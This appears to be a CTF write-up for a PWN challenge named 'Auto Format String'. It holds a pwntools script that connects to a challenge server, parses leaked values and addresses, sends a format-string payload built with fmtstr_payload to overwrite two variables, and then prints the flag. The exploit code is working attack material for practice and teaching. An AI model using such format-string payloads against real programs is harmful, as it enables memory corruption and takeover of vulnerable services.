



# **Auto Format String - PWN CTF Challenge**

### ***Exploitation***
---








[link](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload)


```js
from pwn import *

#p = process('./autofmt')
p = remote('45.122.249.68', 10015)

context.clear(arch = 'amd64')

p.recvline()

a_val = int(p.recvline()[4:-1])
b_val = int(p.recvline()[4:-1])
a_add = int(p.recvline()[11:-1],16)
b_add = a_add - 8

writes = {a_add: a_val, b_add: b_val}

payload = fmtstr.fmtstr_payload(10, writes, write_size='short')

p.sendline(payload)
p.interactive()
```



> **FLAG: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}**


